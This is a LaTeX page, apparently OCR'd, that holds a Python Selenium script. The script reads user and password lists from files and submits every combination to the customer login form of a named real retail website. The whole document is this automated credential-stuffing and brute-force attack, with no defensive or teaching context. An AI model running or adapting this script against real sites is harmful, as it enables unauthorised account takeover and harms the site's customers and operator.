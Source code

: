 \documentclass[]{article}
\begin{document}
    \begin{lstlisting}[lenguaje=py]
        import string, random, time
        from selenium import webdriver
        from selenium.webdriver.common.keys import Keys
        from selenium.webdriver.common.by import By
        from ctypes import sizeof
        ubicacionDriver = '/usr/local/bin/chromedriver'
        
        def readUsuarios():
            usuarios = list()
            arc = open("user.txt")
            lineas = arc.readlines()
            i = 0    #driver.get('https://www.abcdin.cl/')
            for lineas in lineas:
                usuarios.append(lineas)
            return usuarios
        
        def readPasswords():
            passwords = list()
            arc = open("pass.txt")
            lineas = arc.readlines()
            i = 0
            for lineas in lineas:
                passwords.append(lineas)
            return passwords
        
        
        if __name__ == "__main__":
            options = webdriver.ChromeOptions()
            options.add_argument('--start-maximized')
            options.add_argument('--disable-extensions')
        
            driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
            correos=readUsuarios()
            contraseñas=readPasswords()
            driver.set_window_position(1000,0)
            driver.maximize_window()
            time.sleep(1)
            driver.get('https://www.abcdin.cl/customer/account/login/')
            time.sleep(5)
            for contraseña in contraseñas:
                for correo in correos: 
                    
                    email = driver.find_element(By.ID, "email")
                    email.clear()
                    email.send_keys(correo)
                    time.sleep(1)
                    passw = driver.find_element(By.ID,"pass")
                    passw.clear()
                    passw.send_keys(contraseña)
                    time.sleep(1)
                    driver.find_element(By.ID, "send2").click()
                    time.sleep(2)
            driver.close()
        
        \end{lstlisting}
\newpage
\end{document}
